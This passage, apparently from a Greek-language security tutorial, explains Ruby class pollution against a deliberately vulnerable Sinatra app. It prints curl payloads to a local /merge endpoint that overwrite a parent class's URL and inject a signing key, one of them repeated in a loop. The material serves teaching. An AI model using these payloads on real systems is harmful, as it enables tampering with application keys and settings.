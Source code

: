 ```ruby
# curl -X POST -H "Content-Type: application/json" -d '{"class":{"superclass":{"url":"http://example.com"}}}' http://localhost:4567/merge

# GET /sign_with_subclass_key - Signs data using the signing key stored in KeySigner
get '/sign_with_subclass_key' do
content_type :json

# This gadget signs data using the signing key stored in KeySigner class
signer = KeySigner.new
signed_data = signer.sign(KeySigner.signing_key, "data-to-sign")

{ status: 'Data signed', signing_key: KeySigner.signing_key, signed_data: signed_data }.to_json
end

# Curl command to infect KeySigner signing key (run in a loop until successful):
# for i in {1..1000}; do curl -X POST -H "Content-Type: application/json" -d '{"class":{"superclass":{"superclass":{"subclasses":{"sample":{"signing_key":"injected-signing-key"}}}}}}' http://localhost:4567/merge; done

# GET /check-infected-vars - Check if all variables have been infected
get '/check-infected-vars' do
content_type :json

{
user_url: Person.url,
signing_key: KeySigner.signing_key
}.to_json
end

run! if app_file == $0
end
```
### Poison Parent Class

Με αυτό το payload: 

{% code overflow="wrap" %}
```bash
curl -X POST -H "Content-Type: application/json" -d '{"class":{"superclass":{"url":"http://malicious.com"}}}' http://localhost:4567/merge
```
{% endcode %}

Είναι δυνατόν να τροποποιηθεί η τιμή του χαρακτηριστικού **`@@url`** της γονικής κλάσης **`Person`**.

### **Μολύνοντας Άλλες Κλάσεις**

Με αυτό το payload:

{% code overflow="wrap" %}
```bash
for i in {1..1000}; do curl -X POST -H "Content-Type: application/json" -d '{"class":{"superclass":{"superclass":{"subclasses":{"sample":{"signing_key":"injected-signing-key"}}}}}}' http://localhost:4567/merge --silent > /dev/null; done
```
{% endcode %}
